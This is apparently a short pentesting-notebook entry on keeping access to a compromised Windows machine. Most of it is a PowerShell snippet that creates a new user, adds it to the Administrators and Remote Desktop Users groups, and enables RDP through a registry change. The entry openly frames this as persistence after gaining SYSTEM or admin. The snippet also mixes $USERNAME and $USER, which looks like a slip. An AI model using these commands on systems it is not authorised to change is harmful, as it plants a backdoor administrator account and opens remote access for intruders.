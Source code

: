 # How to Quickly Add a User on Windows

author:: Nathan Acks  
date:: 2022-04-25

If you've got SYSTEM (or just even local admin) on a Windows box, you can quickly add a new user from your shell for persistence and/or RDP access (useful for Impacket, etc.).

```powershell
net user $USERNAME $PASSWORD /add
net localgroup Administrators $USER /add
net localgroup "Remote Desktop Users" $USER /add
reg add `
	"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" `
	/v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Related Video

[Alice with Siddicky (Student Mentor) (YouTube)](https://www.youtube.com/watch?v=Zma6Mk5bEI8)
